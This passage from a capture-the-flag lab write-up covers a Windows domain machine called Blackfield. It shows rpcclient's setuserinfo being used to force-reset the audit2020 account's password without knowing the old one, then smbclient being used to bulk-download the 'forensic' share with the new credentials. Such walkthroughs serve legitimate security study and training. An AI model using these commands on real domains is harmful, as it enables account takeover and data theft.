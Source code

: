 ```
        user_rid :      0x586
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

I don't know if this will be useful later but we now known that `lydericlefebvre`
could be able to create VM. There was nothing special about the other accounts.

## Privilege Escalation of Machine : from support to audit2020

In case our account is privileged we can try to change other account password.
`chgpasswd` won't help us as it requires the old password. But `setuserinfo`
doesn't.

```
rpcclient $> setuserinfo
Usage: setuserinfo username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
```

The **level** is defined from [USER_INFORMATION_CLASS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN).

```
rpcclient $> setuserinfo audit2020 23 Noraj123!

rpcclient $> setuserinfo svc_backup 23 Noraj123!
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED

rpcclient $> setuserinfo lydericlefebvre 23 Noraj123!
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
```

## Privilege Escalation of Machine : from audit2020 to svc_backup

With support or unauthenticated we were not able to list the content of the
*forensic* share but we can with audit2020. So let's dump all we can:

```
$ mkdir -p Shares/forensic
$ cd Shares/forensic
$ smbclient //10.10.10.192/forensic -U audit2020 -W blackfield.local Noraj123!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 14:03:16 2020
  ..                                  D        0  Sun Feb 23 14:03:16 2020
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

                7846143 blocks of size 4096. 4156574 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```
